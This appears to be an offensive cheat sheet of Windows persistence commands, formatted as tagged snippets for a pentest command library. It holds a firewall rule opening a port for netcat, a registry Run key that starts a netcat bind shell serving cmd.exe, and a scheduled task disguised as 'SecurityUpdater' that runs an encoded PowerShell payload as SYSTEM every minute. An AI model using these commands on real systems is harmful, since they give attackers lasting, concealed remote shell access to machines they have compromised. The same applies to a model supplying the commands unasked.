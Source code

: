 # cmd.exe
% windows, persistence

#plateform/windows #target/local #cat/PERSIST #tag/cmd 

# registry bind listener
netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445
```
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v <name> -d 'C:\windows\temp\nc.exe -Ldp <port> -e cmd.exe'
```

# scheduled tasks
netsh advfirewall firewall add rule name='netcat' dir=in action=allow protocol=Tcp localport=4445
```
schtasks /create /sc minute /mo 1 /tn SecurityUpdater /tr \"powershell.exe -enc <payload_b64_enc>" /ru SYSTEM
```